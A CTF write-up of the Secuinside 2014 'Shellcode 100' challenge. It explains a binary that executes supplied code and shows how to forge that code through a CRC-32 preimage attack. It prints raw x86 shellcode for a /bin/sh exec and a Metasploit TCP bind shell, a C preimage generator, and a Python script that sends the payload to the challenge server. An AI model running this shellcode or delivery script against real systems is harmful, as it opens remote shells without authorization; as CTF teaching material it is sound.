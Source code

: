 ```yaml
---
layout: post
title: "Secuinside Quals 2014: Shellcode 100"
date: 2014-06-02 04:57:01 +0000
permalink: /2014/06/02/secuinside-quals-2014-shellcode-100/
category: Security
tags:
  - CTF
  - Secuinside
  - Security
redirect_from:
  - /blog/secuinside-quals-2014-shellcode-100/
---
```

This is a level that, at first, seemed like it would be extremely simple, but then turned out to be far more complicated than expected.  We were provided a zip file containing a python script and an elf binary.

Disassembling the binary reveals a very basic program:

    / (fcn) sym.main 165
    |                0x0804847d    55           push ebp
    |                0x0804847e    89e5         mov ebp, esp
    |                0x08048480    83e4f0       and esp, 0xfffffff0
    |                0x08048483    83ec30       sub esp, 0x30
    |                0x08048486    8b450c       mov eax, [ebp+0xc]
    |                0x08048489    83c004       add eax, 0x4
    |                0x0804848c    8b00         mov eax, [eax]
    |                0x0804848e    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048376 (fcn.08048376)
    |                ; CODE (CALL) XREF from 0x08048370 (fcn.08048366)
    |                0x08048491    e8dafeffff   call 0x108048370 ; (sym.imp.atoi)
    |                   sym.imp.atoi(unk)
    |                0x08048496    89442428     mov [esp+0x28], eax
    |                0x0804849a    c7442424000. mov dword [esp+0x24], 0x0
    |                0x080484a2    c7442408040. mov dword [esp+0x8], 0x4
    |                0x080484aa    8d442424     lea eax, [esp+0x24]
    |                0x080484ae    89442404     mov [esp+0x4], eax
    |                0x080484b2    8b442428     mov eax, [esp+0x28]
    |                0x080484b6    890424       mov [esp], eax
    |                ; CODE (CALL) XREF from 0x08048330 (fcn.0804832c)
    |                0x080484b9    e872feffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x080484be    8b442424     mov eax, [esp+0x24]
    |                0x080484c2    c7442414000. mov dword [esp+0x14], 0x0
    |                0x080484ca    c7442410fff. mov dword [esp+0x10], 0xffffffff
    |                0x080484d2    c744240c220. mov dword [esp+0xc], 0x22
    |                0x080484da    c7442408070. mov dword [esp+0x8], 0x7
    |                0x080484e2    89442404     mov [esp+0x4], eax
    |                0x080484e6    c7042400000. mov dword [esp], 0x0
    |                ; CODE (CALL) XREF from 0x08048350 (fcn.08048346)
    |                0x080484ed    e85efeffff   call 0x108048350 ; (sym.imp.mmap)
    |                   sym.imp.mmap()
    |                0x080484f2    8944242c     mov [esp+0x2c], eax
    |                0x080484f6    8b442424     mov eax, [esp+0x24]
    |                0x080484fa    89442408     mov [esp+0x8], eax
    |                0x080484fe    8b44242c     mov eax, [esp+0x2c]
    |                0x08048502    89442404     mov [esp+0x4], eax
    |                0x08048506    8b442428     mov eax, [esp+0x28]
    |                0x0804850a    890424       mov [esp], eax
    |                0x0804850d    e81efeffff   call 0x108048330 ; (sym.imp.read)
    |                   sym.imp.read()
    |                0x08048512    31c0         xor eax, eax
    |                0x08048514    31c9         xor ecx, ecx
    |                0x08048516    31d2         xor edx, edx
    |                0x08048518    31db         xor ebx, ebx
    |                0x0804851a    31f6         xor esi, esi
    |                0x0804851c    31ff         xor edi, edi
    \                0x0804851e    ff64242c     jmp dword [esp+0x2c]

It takes a single argument, an integer, which it uses as a file descriptor for input.  It then reads 4 bytes from the file descriptor, mmap's an anonymous block of memory of that size with RWX permissions, then reads that many bytes from the file descriptor into the mapped region, and finally jumps to the map region.  So, in summary, read shellcode length, read shellcode, then jump to shellcode.

So, let's look at the python script responsible for launching the program and reading the input.

    #!/usr/bin/python
    import os, signal, struct, binascii
    from sys import stdin, stdout
    
    UI = lambda a : struct.unpack('I', a)[0]
    PI = lambda a : struct.pack('I', a)
    
    def crc32(data, salt) :
        return PI(binascii.crc32(salt + data) & 0xffffffff)
    
    def main() :
        signal.alarm(25)
    
        salt = os.urandom(10)
        print 'salt:', salt.encode('hex')
        stdout.flush()
    
        n = UI(stdin.read(4))
        data = ''.join(crc32(stdin.read(UI(stdin.read(4))), salt) for _ in xrange(n))
    
        fi, fo = os.pipe()
        if not os.fork() :
            os.execl('/home/sc/thisisnotbad', 'thisisnotbad', '%d' % fi)
        else :
            os.write(fo, PI(len(data)))
            os.write(fo, data)
    
    if __name__ == '__main__' :
        main()

As you can tell, it provides a 10 byte salt, then reads in 4 bytes (`n`), then finally reads `n` blocks prefixed by a 4-byte length.  Next, for each block, it computes the crc32 of the block with the salt prepended.  Finally, the crc32s are concatenated as the shellcode to be executed.

So, to get useful shellcode, we have to mount a preimage attack on CRC-32.  Fortunately, CRC-32 is not a cryptographically secure hash, and [Julien Tinnes has done the heavy lifting for us](https://code.google.com/p/tweakcrc/).  So, we can take our shellcode as the desired CRC32s and compute the preimage of salt+preimage vector (4 bytes), then break the result into 4 byte chunks and send them along with appropriate lengths.

I wrote a little C program to use the calcvect.c from tweakcrc to compute the preimages given the salt, then used python for all the socket communications. (Because why do sockets in C when you can avoid it?)

    #!c
    #include "crc32.h"
    #include <string.h>
    #include <stdio.h>
    #include <arpa/inet.h>
    
    /*
    const char *shellcode = "\x31\xc0\x50\x68"
                            "\x2f\x2f\x73\x68"
                            "\x68\x2f\x62\x69"
                            "\x6e\x89\xe3\x50"
                            "\x53\x89\xe1\xb0"
                            "\x0b\xcd\x80\x90";
    */
    
    unsigned char shellcode[] = 
    "\x31\xdb\xf7\xe3\x53\x43\x53\x6a"
    "\x02\x89\xe1\xb0\x66\xcd\x80\x5b"
    "\x5e\x52\x68\x02\x00\x16\x9d\x6a"
    "\x10\x51\x50\x89\xe1\x6a\x66\x58"
    "\xcd\x80\x89\x41\x04\xb3\x04\xb0"
    "\x66\xcd\x80\x43\xb0\x66\xcd\x80"
    "\x93\x59\x6a\x3f\x58\xcd\x80\x49"
    "\x79\xf8\x68\x2f\x2f\x73\x68\x68"
    "\x2f\x62\x69\x6e\x89\xe3\x50\x53"
    "\x89\xe1\xb0\x0b\xcd\x80\x90\x90";
    
    
    #define SC_LEN 80
    #define CHUNK_SIZE 4
    
    char shellcode_out[SC_LEN];
    
    char tmpbuf[14];
    
    unsigned int    tweakcrc(void *map, int length, unsigned int target, unsigned int offset);
    
    
    void decode_hex(char *dst, const char *src) {
      int i;
      for (i=0; i<strlen(src)/2; i ++)
        sscanf(&(src[i*2]), "%2hhx", &dst[i]);
    }
    
    
    int main(int argc, char **argv) {
      int i;
      int target;
      decode_hex(tmpbuf, argv[1]);
      gen_table();
    
      for (i=0; i<(SC_LEN/CHUNK_SIZE); i++){
        *(int *)(tmpbuf + 10) = 0;
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        target = *((int *)&shellcode[i*CHUNK_SIZE]);
        //target = htonl(target);
        //fprintf(stderr, "Target: %08x\n", target);
        tweakcrc(tmpbuf, 14, target, 10);
        
        //for (k=0; k<14; k++)
          //fprintf(stderr, "%02hhx", tmpbuf[k]);
        //fprintf(stderr, "\n");
        memcpy(&shellcode_out[i*CHUNK_SIZE], tmpbuf+10, 4);
      }
    
      for (i=0; i<SC_LEN; i++)
        printf("%02hhx", shellcode_out[i]);
      printf("\n");
      return 0;
    }

You might notice a commented out shellcode.  At first, I just tried a basic x86 shell exec, but stdin/stdout do not seem to connect through to the shellcode.  I didn't dig into why, just replaced my shellcode with `linux/x86/shell_bind_tcp` from Metasploit.  

To chunk and send my payload:

    #!python
    import socket
    import subprocess
    import struct
    import binascii
    
    
    def crc32(data, salt):
      #print (salt+data).encode('hex')
      v = struct.pack('I', binascii.crc32(salt + data) & 0xffffffff)
      #print v.encode('hex')
      return v
    
    REMOTE = ('54.178.232.195', 5757)
    #REMOTE = ('localhost', 5555)
    
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(REMOTE)
    print 'Connected.'
    salt = s.recv(1024).strip().split(':')[1].strip()
    print 'Salt: %s' % salt
    
    shellcode = subprocess.check_output(
        ('./shellcode', salt)).strip()
    print 'Shellcode: %s' % shellcode
    shellcode = shellcode.decode('hex')
    
    def send(what):
      print what.encode('hex')
      return s.send(what)
    
    def chunks(sc):
      return [sc[x:x+4] for x in xrange(0, len(sc), 4)]
    
    nc = len(shellcode)/4
    
    shellcode = ''.join('\x04\x00\x00\x00' + c for c in chunks(shellcode))
    
    l = send(struct.pack('I', nc) + shellcode)
    print 'Shellcode %d done.' % l

You might notice both programs have a lot of debugging print statements.  Getting the endianness just right, tweaking the payload chunking, etc., consumed far more time than figuring out what the problem was.
